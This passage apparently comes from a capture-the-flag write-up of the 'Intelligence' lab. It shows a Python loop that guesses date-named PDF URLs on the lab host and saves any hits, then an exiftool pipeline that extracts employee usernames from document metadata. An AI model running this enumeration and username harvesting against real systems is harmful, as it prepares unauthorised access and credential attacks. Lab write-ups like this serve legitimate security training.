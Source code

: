 ```bash
        response = requests.get(full_url, timeout=5)
        if response.status_code == 200:
            path = f"pdfs/{filename}"
            with open(path, "wb") as f:
                f.write(response.content)
                print(f"[+] Found and saved: {path}")
        else:
            print(f"[-] Not found: {filename}")
    except Exception as e:
        print(f"[!] Error for {filename}: {e}")

    current_date += timedelta(days=1)
```

and we can now get all files.

```bash
➜  Intelligence python3 pdfsearch.py 
[*] Trying: http://10.10.10.248/documents/2020-01-01-upload.pdf
[+] Found and saved: pdfs/2020-01-01-upload.pdf
[*] Trying: http://10.10.10.248/documents/2020-01-02-upload.pdf
[+] Found and saved: pdfs/2020-01-02-upload.pdf
[*] Trying: http://10.10.10.248/documents/2020-01-03-upload.pdf
[-] Not found: 2020-01-03-upload.pdf
```

lets see if we can find some usernames inside i will use `exiftool`  for this.

![alt text](../assets/images/intelligence4.png)

okey its seems like we can extract usernames here.

```bash
➜  pdfs exiftool *-upload.pdf | grep -i "Creator" | awk '{print $3}' > users.txt
➜  pdfs cat users.txt 
William.Lee
Scott.Scott
Jason.Wright
Veronica.Patel
Jennifer.Thomas
Danny.Matthews
David.Reed
Stephanie.Young
[SNIP]
```
